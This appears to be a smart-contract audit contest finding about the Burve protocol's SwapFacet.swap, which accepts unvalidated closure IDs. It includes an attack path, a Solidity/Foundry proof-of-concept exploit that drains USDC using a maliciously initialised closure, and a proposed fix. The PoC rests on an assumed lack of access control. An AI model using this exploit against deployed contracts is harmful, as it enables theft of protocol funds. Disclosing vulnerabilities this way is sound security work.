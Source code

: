 Straight Admiral Iguana

Medium

# Attacker Will Steal Tokens from Protocol Because of "SwapFacet.sol::swap"

### Summary

The lack of validation for `ClosureId` trustworthiness in `[SwapFacet.sol](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/facets/SwapFacet.sol#L65C1-L66C48)`, and the potential to initialize a closure with a malicious configuration via an unauthorized Closure.init call, will cause a significant token loss for the protocol as an attacker will use a `ClosureId` of a maliciously configured closure, manipulating swap calculations to drain tokens from vertex balances.





### Root Cause

In `[SwapFacet.sol:65-66](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/facets/SwapFacet.sol#L65C1-L66C48)`, the swap function accepts a `ClosureId (_cid)` without validating whether the closure is initialized or legitimate  due to design choice to trust any initialized ClosureId without verifying its trustworthiness

:

```solidity 

function swap(
    address recipient,
    address inToken,
    address outToken,
    int256 amountSpecified,
    uint256 amountLimit,
    uint16 _cid
) external nonReentrant returns (uint256 inAmount, uint256 outAmount) {
    // Validates the tokens.
    VertexId inVid = VertexLib.newId(inToken);
    VertexId outVid = VertexLib.newId(outToken);
    require(!inVid.isEq(outVid), VacuousSwap());
    // Validates the closure.
    ClosureId cid = ClosureId.wrap(_cid);
    Closure storage c = Store.closure(cid);
    ...
}


```
The ClosureId.wrap(_cid) call directly accesses Store.closure(cid) without checking if the closure is initialized, or registered by an authorized entity. A malicious closure could manipulate the swapInExact or swapOutExact functions to return inflated nominalOut values, allowing the attacker to withdraw excessive tokens from Store.vertex(outVid).

Also `[id.sol:newClosureId`](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/closure/Id.sol#L12C1-L12C74) is view and accessible to anyone, allowing an attacker to compute a ClosureId for any valid token set





### Internal Pre-conditions

1. Attacker needs to initialize a closure in `Store.closures` with a malicious configuration (e.g., ClosureId = 999, inflated balances[outIdx] or skewed targetX128) by calling [Closure.init ](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/closure/Closure.sol#L80C3-L85C33)through an unauthorized function.
3. Store.sol or another contract needs to allow closure initialization without strict access control, enabling the attacker to set closures[999].cid = 999.
5. Vertex balance for outVid (e.g., USDC vertex) needs to be at least 1000 tokens to allow significant withdrawal.
7. TokenRegistry needs to include the attacker’s chosen tokens (e.g., DAI and USDC) to generate a valid ClosureId.


### External Pre-conditions

1. The outToken **(e.g., USDC)** needs to be a standard ERC-20 token compatible with TransferHelper to ensure successful transfer to the attacker.
2. Gas price needs to be **_at most 100 gwei_** to make the attack economically viable.



### Attack Path

1. Attacker calls newClosureId([DAI, USDC]) to compute a ClosureId (e.g., 999) for tokens in TokenRegistry.
3. Attacker initializes a closure in Store.closures[999] via a initClosure function (, setting cid = 999, balances[1] = 1000e6 (USDC), and a low targetX128 to inflate swap outputs.
5. Attacker calls SwapFacet.swap(recipient=attacker, inToken=DAI, outToken=USDC, amountSpecified=100, amountLimit=0, _cid=999) with a small DAI input (100 wei).
7. Store.closure(999) passes the EmptyClosure and UninitializedClosure checks, returning the maliciously configured closure.
9. SwapFacet calls c.swapInExact(inVid, outVid, nominalIn), which uses the inflated balances[1] to compute a large outAmount (e.g., 1000 USDC) due to skewed ValueLib.v calculations.
11. AdjustorLib.toReal converts nominalOut to outAmount (1000 USDC).
13. Store.vertex(outVid).withdraw(cid, outAmount, true) withdraws 1000 USDC from the vertex balance.
15. TransferHelper.safeTransfer(outToken, recipient, outAmount) transfers 1000 USDC to the attacker



### Impact

The protocol suffers an approximate ******loss** of 1000 USDC** (or the entire available vertex balance of outToken)**. The attacker gains 1000 USDC minus the small DAI input (100 wei) and gas costs.



### PoC


```solidity
// MaliciousClosureInit.sol 
contract MaliciousClosureInit {
    Store store;

    constructor(address _store) {
        store = Store(_store);
    }

    function initMaliciousClosure(uint16 cid, address[] memory tokens) external {
        ClosureId closureId = ClosureId.wrap(cid);
        Closure storage c = store.load().closures[closureId];
        // Assume init is callable without access control
        uint256[MAX_TOKENS] memory balances;
        balances[1] = 1000e6; // Inflate USDC balance (index 1)
        c.cid = closureId;
        c.n = 2; // DAI and USDC
        c.targetX128 = 1e18; // Low target to skew swaps
        c.baseFeeX128 = 0;
        c.protocolTakeX128 = 0;
        for (uint8 i = 0; i < tokens.length; i++) {
            c.balances[i] = balances[i];
        }
        c.valueStaked = 2e18;
    }
}

// Attack script (using Foundry)
pragma solidity ^0.8.27;
import "forge-std/Test.sol";

contract AttackTest is Test {
    SwapFacet swapFacet;
    Store store;
    address attacker = address(0x123);
    address usdc = address(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48); // USDC
    address dai = address(0x6B175474E89094C44Da98b954EedeAC495271d0F); // DAI

    function setUp() public {
        swapFacet = SwapFacet(deployedSwapFacetAddress);
        store = Store(deployedStoreAddress);
        // Fund attacker and vertex
        deal(dai, attacker, 100); // 100 wei DAI
        deal(usdc, address(store), 1000e6); // 1000 USDC in vertex
        // Initialize malicious closure
        MaliciousClosureInit malicious = new MaliciousClosureInit(address(store));
        address[] memory tokens = new address[](2);
        tokens[0] = dai;
        tokens[1] = usdc;
        vm.prank(attacker);
        malicious.initMaliciousClosure(999, tokens);
    }

    function testAttack() public {
        vm.startPrank(attacker);
        // Approve DAI for SwapFacet
        IERC20(dai).approve(address(swapFacet), 100);
        // Execute swap
        (uint256 inAmount, uint256 outAmount) = swapFacet.swap(
            attacker, // recipient
            dai, // inToken
            usdc, // outToken
            100, // amountSpecified (100 wei DAI)
            0, // amountLimit (bypass slippage)
            999 // malicious ClosureId
        );
        assertEq(IERC20(usdc).balanceOf(attacker), 1000e6); // Attacker receives 1000 USDC
        vm.stopPrank();
    }
}

```

### Mitigation

Validate Closure Trustworthiness: **Modify SwapFacet.sol to ensure the ClosureId corresponds to a trusted closure:**

```solidity

function swap(
    address recipient,
    address inToken,
    address outToken,
    int256 amountSpecified,
    uint256 amountLimit,
    uint16 _cid
) external nonReentrant returns (uint256 inAmount, uint256 outAmount) {
    VertexId inVid = VertexLib.newId(inToken);
    VertexId outVid = VertexLib.newId(outToken);
    require(!inVid.isEq(outVid), VacuousSwap());
    ClosureId cid = ClosureId.wrap(_cid);
    Closure storage c = Store.closure(cid);
    require(c.isTrusted, "Untrusted closure"); // Add trust validation
    ...
}
```
then **Update the Closure struct in Closure.sol:**
```solidity
struct Closure {
    ClosureId cid;
    bool isTrusted; // Indicates if closure is registered by admin
    uint8 n;
    uint256 targetX128;
    uint256 baseFeeX128;
    uint256 protocolTakeX128;
    uint256[MAX_TOKENS] balances;
    uint256 valueStaked;
    uint256 bgtValueStaked;
    uint256[MAX_TOKENS] earningsPerValueX128;
    uint256 bgtPerBgtValueX128;
    uint256[MAX_TOKENS] unexchangedPerBgtValueX128;
}

```